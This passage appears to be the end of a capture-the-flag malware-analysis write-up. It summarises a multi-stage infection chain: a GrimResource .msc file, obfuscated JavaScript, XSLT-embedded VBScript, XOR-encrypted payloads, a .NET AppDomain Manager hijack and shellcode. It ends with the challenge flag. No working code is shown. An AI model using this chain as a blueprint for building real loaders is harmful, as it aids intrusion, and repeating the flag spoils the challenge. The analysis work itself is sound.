

So the full attack chain is:

```text
wanted.msc          GrimResource — apds.dll JS execution trick
    ↓
Obfuscated JS       String array obfuscation + URL encoding
    ↓
XSLT + VBScript     Caesar cipher (shift +4), embedded in XSLT script tag
    ↓
csrss.exe/dll       XOR encrypted malware, dll = key
    ↓
dfsvc.dll           .NET AppDomain Manager hijack, AES-CBC encrypted URL
    ↓
shellcode.xml       Raw shellcode — flag inside
```

`Flag: HTB{mSc_1s_b31n9_s3r10u5ly_4buSed}`